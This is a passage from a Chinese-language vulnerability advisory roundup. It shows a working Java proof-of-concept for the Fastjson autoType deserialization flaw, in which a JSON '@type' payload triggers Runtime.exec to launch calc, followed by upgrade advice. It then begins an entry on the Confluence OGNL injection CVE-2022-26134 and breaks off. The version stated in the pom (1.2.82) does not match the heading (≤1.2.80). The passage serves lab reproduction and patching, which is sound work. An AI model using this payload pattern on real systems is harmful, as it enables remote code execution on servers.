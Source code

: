   1. Fastjson ≤ 1.2.80

 **利用方法：**  
** **利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

    
    
    <dependency>  
        <groupId>com.alibaba</groupId>  
        <artifactId>fastjson</artifactId>  
        <version>1.2.82</version>  
    </dependency>   
    

创建文件夹 com.example.fastjson，在下面添加两个 java 文件

    
    
    package com.example.fastjson;  
       
    import java.io.IOException;  
       
    public class Poc extends Exception {  
        public void setName(String str) {  
            try {  
                Runtime.getRuntime().exec(str);  
            } catch (IOException e) {  
                e.printStackTrace();  
            }  
        }  
    }  
    
    
    
    package com.example.fastjson;  
    import com.alibaba.fastjson.JSON;  
       
    public class PocDemo {  
        public static void main(String[] args) {  
            String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";  
            JSON.parse(json);  
        }  
    }  
    

运行 PocDemo  
 **修复建议**  
1、升级至版本 FastJson 1.2.83：  
https://github.com/alibaba/fastjson/releases/tag/1.2.83  
2、升级到 FastJosn v2：  
https://github.com/alibaba/fastjson2/releases

# 3、 **Atlassian Confluence 远程代码执行漏洞**

远程攻击者在未经身份验证的情况下，可构造 OGNL 表达式进行注入，实现在 Confluence Server 或 Data Center 上执行任意代码。  
**漏洞标签：** 利用链成熟、历史重大漏洞、服务器权限相关  
 **漏洞编号：** CVE-2022-26134  
 **漏洞类型：** RCE  
 **受影响版本：**
